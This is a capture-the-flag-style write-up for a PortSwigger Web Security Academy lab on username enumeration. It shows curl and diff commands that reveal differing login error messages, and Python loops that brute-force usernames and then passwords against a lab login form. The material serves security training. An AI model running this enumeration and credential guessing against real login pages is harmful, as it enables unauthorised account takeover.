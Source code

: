 To streamline the process, we can first export the environment variable for the target URL:
```
export TARGET="https://<random-url>.web-security-academy.net"
```

To interact with a login form programmatically, we first need to identify the name attributes of the username and password input fields. These attributes tell us what parameters to send in our requests.

We can use curl to fetch the raw HTML of the login page and extract the relevant form elements:

```bash
curl -s $TARGET/login | grep -E "<form|<input"
```
Even when submitting incorrect credentials, the server might always return a 200 OK status. However, differences in the response body can still reveal whether a username is valid. To analyze these variations, we can compare responses using `curl` and `diff`.

```bash
diff <(echo "$(curl -s -X POST "$TARGET/login" -d "username=test&password=test")") \
     <(echo "$(curl -s "$TARGET/login")")
```

```
<                         <p class=is-warning>Invalid username</p>
```
This response suggests that application might give different response if we use correct username. We can automate the process with Python. Full code available [here](https://github.com/fkielpinski/PortswiggerAcademy/blob/main/username_enumeration_via_different_responses/).

```python
for username in usernames:
    data = {
        "username":f"{username}",
        "password":"test"
    }

    response = requests.post(url=url, data=data)

    if "Invalid username" in response.text:
        print("Username is invalid")
    else:
        print(f"Valid username is {username}")
```

After identifying the vulnerability (i.e., the application providing different responses for valid and invalid usernames), we can repeat the steps for password enumeration focusing on different HTTP status code. This process is similar to username enumeration, but we will now focus on the password field, attempting to find a valid password for a given valid username.

```
for password in passwords:
                data = {
                        "username": f"{username}",
                        "password": f"{password}"
                }
                response = requests.post(url=url, data=data, allow_redirects=False)
                if response.status_code == 302:
                    print(f"Redirected to {response.headers['Location']}")
                    return username, password
```

